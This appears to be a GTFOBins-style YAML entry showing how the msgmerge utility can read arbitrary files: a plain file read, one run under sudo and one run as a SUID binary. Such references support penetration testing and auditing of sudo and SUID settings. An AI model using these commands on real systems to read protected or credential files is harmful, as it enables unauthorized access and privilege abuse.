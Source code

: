 ```yaml
---
description: The file is parsed and displayed as a Java `.properties` file, so this may not be suitable to read arbitrary binary data.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        msgmerge -P $LFILE /dev/null
  sudo:
    - code: |
        LFILE=file_to_read
        sudo msgmerge -P $LFILE /dev/null
  suid:
    - code: |
        LFILE=file_to_read
        ./msgmerge -P $LFILE /dev/null
---
```

